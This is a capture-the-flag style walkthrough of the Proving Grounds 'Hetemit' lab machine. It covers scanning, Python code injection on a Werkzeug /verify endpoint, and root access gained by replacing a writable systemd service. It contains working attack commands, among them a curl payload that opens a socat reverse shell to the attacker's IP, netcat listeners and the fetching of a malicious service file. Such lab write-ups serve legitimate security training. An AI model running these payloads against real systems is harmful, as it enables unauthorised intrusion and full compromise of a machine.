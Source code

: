 ```yaml
---
layout: post
title: PG | Hetemit
subtitle: Hetemit - The Goddess of Destruction
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 06:11 EDT
Nmap scan report for 192.168.235.117
Host is up (0.015s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
|_http-server-header: Apache/2.4.37 (centos)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.05 seconds
~~~

## FTP (TCP/21)

After connecting anonymously I was unable to view any files on the FTP server

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ ftp anonymous@192.168.235.117
Connected to 192.168.235.117.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
~~~

## HTTP (TCP/80)

The web server on port 80 is displaying an Apache HTTP Test Page and after enumerating the website I could not find information or vulnerabilities that could lead me to a foothold

![Hetemit](/assets/img/HetemitPG(1).png)

## SMB (139, 445)

The SMB server revealed a restricted share named 'Cmeeks' which looks like a username for an account on the target

![Hetemit](/assets/img/HetemitPG(2).png)

## HTTP (TCP/18000)

The web server on port 18000 is hosting a web app behind a log in page, after trying default credentials and attempting to register an account there was no success in navigating deeper into the website as the registration proccess required an invite code as shown below

![Hetemit](/assets/img/HetemitPG(3).png)

## HTTP (TCP/50000)

The web server on port 50000 is running Werkzeug httpd 1.0.1 (Python 3.6.8) which is an interface to integrate python code into a web application.

The initial webpage displays two sub-directories/pages /generate and /verify which seems like a back-end system for code generation for the Registration system on port 18000.

![Hetemit](/assets/img/HetemitPG(4).png)

The /verify page displays a {code} variable, using a curl POST request I was able to inject data into the code variable which was executed by the web server

![Hetemit](/assets/img/HetemitPG(5).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ curl -X POST http://192.168.235.117:50000/verify --data "code=1*5"
5  
~~~

As the web server is running Python I created a python-based reverse shell using the Python utility os.system() to execute shell commands

Start Listener

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~

Execute python reverse shell

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ curl -X POST http://192.168.235.117:50000/verify --data "code=os.system('socat TCP:192.168.45.167:21 EXEC:sh')"
~~~

And I recieved my initial foothold as the user 'cmeeks' we found earlier via SMB!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.235.117] 55190
whoami
cmeeks
~~~

# Privilege Escalation

I began enumerating for Privilege Escalation by running linpeas and identified a service pythonapp.service our user has write permissions over

![Hetemit](/assets/img/HetemitPG(6).png)

The pythonapp.service as shown below is executing restjson_hetemit in the context of the User cmeeks and is executed via 'Restart=on-faliure' so requires a device reboot to execute

![Hetemit](/assets/img/HetemitPG(7).png)

I created a malicious version of pythonapp.service on my attack machine with the assistance of [this](https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation) reverse shell service payload for Privilege Escalation, the malicious service runs the service in the context of the 'root' user and executes a reverse shell

![Hetemit](/assets/img/HetemitPG(8).png)

I transferred and replaced the current pythonapp.service on the target machine with the malicious pythonapp.service

~~~shell
sh-4.4$ curl http://192.168.45.167/pythonapp.service -o pythonapp.service
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   200  100   200    0     0   5882      0 --:--:-- --:--:-- --:--:--  5882
~~~

I needed to find a way to restart the system to execute the service, and after checking our current users sudo permissions I found it had sudo permissions over /sbin/reboot

![Hetemit](/assets/img/HetemitPG(9).png)

I started my netcat listener for the reverse shell on port 18000

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 18000
listening on [any] 18000 ...
~~~

I then rebooted the system

~~~shell
sh-4.4$ sudo /sbin/reboot
~~~

After a few seconds I recieved my reverse shell as root!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 18000
listening on [any] 18000 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.235.117] 40820
bash: cannot set terminal process group (1213): Inappropriate ioctl for device
bash: no job control in this shell
[root@hetemit /]# whoami
whoami
root
~~~